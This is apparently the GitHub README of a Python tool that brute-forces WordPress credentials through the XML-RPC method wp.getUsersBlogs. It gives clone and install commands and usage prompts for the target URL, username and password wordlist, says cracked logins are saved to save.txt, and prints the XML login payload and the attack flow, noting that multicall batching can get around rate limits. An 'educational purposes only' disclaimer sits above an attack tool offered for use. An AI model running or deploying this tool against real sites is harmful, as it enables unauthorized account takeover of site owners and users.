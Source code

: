 ## overview
this tool performs a **brute force attack** against WordPress sites via the vulnerable XML-RPC API method `wp.getUsersBlogs`.

If `xmlrpc.php` is enabled and not protected, it allows attackers to send repeated login attempts in a structured XML format — sometimes even batching them together — bypassing traditional brute force protections.

---

## disclaimer
this script is for **educational purposes only**.  
do not use it against systems you don’t own or without **explicit permission**.  
unauthorized use may be **illegal** and could cause **criminal charges**.

---

## installation

clone repo and install dependencies:
```bash
git clone https://github.com/Pwdnx1337/xmlrpc-bruteforcer
cd xmlrpc-bruteforcer
pip install -r requirements.txt
````
## usage

run the script:

```bash
python3 run.py
```

it will prompt:

```
url: https://example.com/xmlrpc.php
username: admin
password: wordlist.txt
```

* **url** > target site XML-RPC endpoint
* **username** > WordPress username to attack
* **password** > path to your password list file

successful credentials are saved in:

```
save.txt
```

example entry:

```
https://example.com/xmlrpc.php admin:password123
```

---

## technical Explanation

* WordPress includes `xmlrpc.php`, an API endpoint used for remote publishing, pingbacks, and integrations.
* inside `xmlrpc.php`, the method `wp.getUsersBlogs` can authenticate a user with **username + password**.
* if brute-force protections are not applied:

  * an attacker can automate thousands of login attempts via XML-RPC.
  * unlike `wp-login.php`, XML-RPC may not trigger login rate-limiting.
  * some servers allow **multicall requests** (dozens of login attempts in a single HTTP request).

### attack flow

1. script prepares an XML payload with:

   ```xml
   <methodName>wp.getUsersBlogs</methodName>
   <params>
     <param><value><string>{username}</string></value></param>
     <param><value><string>{password}</string></value></param>
   </params>
   ```
2. sends payload via `POST` to `xmlrpc.php`.
3. if credentials are correct > the response contains `<name>` and `isAdmin`.
4. once found, credentials are logged to `save.txt`.
